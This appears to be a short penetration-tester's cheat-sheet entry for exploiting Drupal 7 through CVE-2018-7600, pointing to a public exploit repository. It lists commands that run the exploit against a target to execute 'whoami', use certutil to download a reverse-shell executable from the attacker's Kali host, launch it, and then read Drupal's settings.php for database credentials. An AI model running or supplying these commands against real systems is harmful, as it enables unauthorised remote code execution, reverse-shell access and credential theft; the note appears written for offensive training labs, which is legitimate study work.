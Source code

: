 #### Drupal 7
https://github.com/pimps/CVE-2018-7600
There are 2 python files, try each, one may work, one may not.
```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c whoami
```
[[1._Reverse Shells (WIN)#MSFVenom]]
```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "certutil -urlcache -split -f http://$KALI/reverse64.exe"
```
```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "reverse64.exe"
```
#### Check for settings.php for creds
```bash - kali
cat /var/www/html/sites/default/settings.php
```
